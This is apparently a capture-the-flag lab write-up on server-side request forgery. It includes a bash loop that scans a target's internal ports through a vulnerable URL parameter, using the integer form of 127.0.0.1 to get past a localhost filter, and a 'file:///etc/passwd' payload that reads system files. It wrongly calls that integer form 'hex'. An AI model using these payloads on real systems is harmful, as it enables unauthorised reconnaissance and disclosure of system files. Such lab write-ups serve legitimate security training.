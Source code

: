 > SSRF

# Exercise 1

Link : http://10.10.76.99:8000

Your task would be to tell how many ports are open on the machine including all the ones that are accessible from outside and as well as the one only accessible from inside. Your answer would also include the port 8000.

# Bash script

Here we can't access localhost using `localhost` or `127.0.0.1` or `0.0.0.0`. So we can convert our IP to hex and use it.
Hex of 127.0.0.1 is `2130706433`

```
#!/bin/bash

for x in {1..65535};
    do cmd=$(curl -so /dev/null http://10.10.76.99:8000/attack?url=http://2130706433:${x} \
        -w '%{size_download}');
    if [ $cmd != 1045 ]; then
        echo "Open port: $x"
    fi
done
```

Or we can capture the request in burp and do it in intruder.

# Results

```
Open Port: 22
Open Port: 3306
Open Port: 5000
Open Port: 8000
Open Port: 6783
```

# Exercise 2

How many users are there on the system?

And typing in `file:///etc/passwd` gives us the file and we can check for `/bin/bash`.